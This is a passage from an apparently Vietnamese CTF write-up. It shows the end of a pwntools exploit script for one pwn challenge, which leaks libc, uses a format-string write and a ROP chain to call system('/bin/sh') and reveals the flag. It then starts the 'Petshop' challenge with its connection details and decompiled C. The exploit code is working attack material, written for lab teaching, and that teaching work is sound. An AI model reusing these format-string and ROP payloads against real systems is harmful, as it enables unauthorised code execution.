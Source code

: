 ```python
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")

logout(b"new_feedback")

# Change RBP
fake_rbp = stack_leak - 0xd0 
log.info(f"fake rbp = {hex(fake_rbp)}")

payload = f"%{fake_rbp & 0xFFFF}c%6$hn"
register("hacker", 123, payload)
login("hacker", 123) 
info()

# Build ropchain 
binsh  = libc_base + next(libc.search(b"/bin/sh\x00"))
system = libc_base + libc.symbols["system"]
poprdi = libc_base + 0x240e5
ret    = poprdi + 1

payload = b"a"*72 + p64(ret) + p64(poprdi) + p64(binsh) + p64(system)
logout(payload) 

p.interactive() 
```
Flag thu được là `KCSC{st1ll_buff3r_0v3rfl0w_wh3n_h4s_c4n4ry?!?}`

## pwn/Petshop

{{< admonition note "Challenge Information" >}}
* 9 solve / 472 pts / by JohnathanHuuTri
* **Given files:** 
  * petshop
  * libc-2.31.so
  * ld-2.31.so 
* **Description:** Welcome to our new petshop! You can find various kinds of pet, sometimes bugs too.\
`nc 103.163.24.78 10001`
{{< /admonition >}}

**Solution**

### Overview 

Chương trình có 4 lựa chọn:
- buy
- sell
- info 
- exit 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char s[32]; // [rsp+0h] [rbp-20h] BYREF

    init(argc, argv, envp);
    puts("Seller --> Welcome to our pet shop!\n");
    do
    {
        puts("Seller --> How may I help you?");
        printf("You    --> ");
        fgets(s, 0x20, stdin);
        if ( !strncmp(s, "buy ", 4uLL) )
        {
```